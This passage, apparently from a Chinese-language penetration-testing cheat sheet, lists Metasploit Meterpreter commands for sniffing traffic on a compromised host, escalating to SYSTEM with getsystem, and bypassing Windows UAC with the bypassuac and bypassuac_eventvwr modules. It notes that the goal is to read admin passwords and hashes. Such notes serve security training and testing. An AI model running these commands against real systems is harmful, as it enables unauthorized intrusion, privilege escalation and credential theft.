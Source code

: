 **sniffer**
```bash
use sniffer
sniffer_interfaces                  # 查看网卡信息
sniffer_start 1                     # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap            # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

---

### 权限提升

```bash
getuid      # 查看当前权限
getsystem   # 提权
getuid      # 再次查看判断是否提权成功
```

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果您以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令 : getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.这里直接上命令.我们需要把获取到的 session 保存到后台,执行 background

```bash
background
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

- **Windows 权限提升绕过 UAC 保护(内存注入)**
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

